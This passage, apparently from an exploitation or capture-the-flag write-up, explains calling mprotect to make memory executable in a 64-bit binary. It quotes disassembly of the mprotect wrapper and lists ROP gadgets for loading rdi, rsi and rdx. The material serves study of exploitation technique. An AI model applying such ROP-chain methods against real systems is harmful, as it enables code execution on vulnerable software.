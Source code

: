 ## Call `mprotect`

Once that's done, we need to call `mprotect` to make the memory executable. We can either use the `mprotect` syscall (`rax` = 0x0a), or the `mprotect` function, which is actually just a thin wrapper for the syscall:

```
.text:0000000000439450 mprotect        proc near               ; CODE XREF: alloc_new_heap+A9↑p
.text:0000000000439450                                         ; sysmalloc+3CD↑p ...
.text:0000000000439450 ; __unwind {
.text:0000000000439450                 mov     eax, 0Ah
.text:0000000000439455                 syscall                 ; LINUX - sys_mprotect
.text:0000000000439457                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:000000000043945D                 jnb     short loc_439460
.text:000000000043945F                 retn
.text:0000000000439460 ; ---------------------------------------------------------------------------
.text:0000000000439460
.text:0000000000439460 loc_439460:                             ; CODE XREF: mprotect+D↑j
.text:0000000000439460                 mov     rcx, 0FFFFFFFFFFFFFFB8h
.text:0000000000439467                 neg     eax
.text:0000000000439469                 mov     fs:[rcx], eax
.text:000000000043946C                 or      rax, 0FFFFFFFFFFFFFFFFh
.text:0000000000439470                 retn
.text:0000000000439470 ; } // starts at 439450
.text:0000000000439470 mprotect        endp
```

We may as well just use that!

The tricky part with exploiting a 64-bit application is that function calls no longer use the stack to pass arguments; the calling convention is [register-based](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). Since `mprotect` requires 3 arguments, we need to find a way to set the first three registers: `rdi`, `rsi`, and `rdx`. I struggled to find a good way to set additional registers, which is why we didn't use `mmap`.

So, once again, I'm too lazy to do it the easy way so I just scoured the code for useful gadgets to set the registers. I ended up finding the following three gadgets...

`pop rdi / ret` (`5f c3`):

```
.text:0000000000401D8F 41 5F                             pop     r15 ; 5f = pop rdi
.text:0000000000401D91 C3                                retn
```

`pop rsi / ret` (`5e c3`):

```
.text:000000000040F781 41 5E                             pop     r14
.text:000000000040F783 C3                                retn
```

And `pop rdx / pop rbx / ret` (`5a 5b c3`), once again loading `rbx` with data it'll never use:

```
.text:00000000004696D7 5A                                pop     rdx
.text:00000000004696D8 5B                                pop     rbx
.text:00000000004696D9 C3                                retn
```
